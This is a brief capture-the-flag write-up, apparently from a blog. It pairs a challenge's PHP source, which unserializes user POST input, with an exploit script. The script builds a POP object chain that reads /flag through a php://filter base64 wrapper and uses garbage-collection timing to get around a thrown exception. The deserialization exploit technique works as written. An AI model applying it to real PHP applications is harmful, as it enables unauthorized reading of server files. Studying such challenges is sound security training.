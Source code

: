 ```php
    }

    public function getFlag(){
        include(hacked($this->dark));
    }
}

function hacked($s) {
    if(substr($s, 0,1) == '/'){
        die('呆jio步');
    }
    $s = preg_replace('/\.\.*/', '.', $s);
    $s = urldecode($s);
    $s = htmlentities($s, ENT_QUOTES, 'UTF-8');
    return strip_tags($s);
}

$un = unserialize($_POST['‮⁦快给我传参⁩⁦pop']); // 
throw new Exception('seino');
```

exp:

```php
<?php
class night
{
 public $night;
}

class day
{
    public $day;
}

class light
{
    public $light;
}
class dark
{
    public $dark;
}
$a = new night();
$a -> night = new day();
$a -> night -> day = new dark();
$a -> night -> day -> dark = new light();
$a -> night -> day -> dark -> light = new day();
$a -> night -> day -> dark -> light -> day = new dark();
$a -> night -> day -> dark -> light -> day -> dark = 'php://filter/convert.base64-encode/resource=/flag';
//用filter伪协议读取来绕过hacked的过滤
$b=array($a,0); 
//利用phpGC垃圾回收机制绕过throw new Exception
echo serialize($b);
?>
```
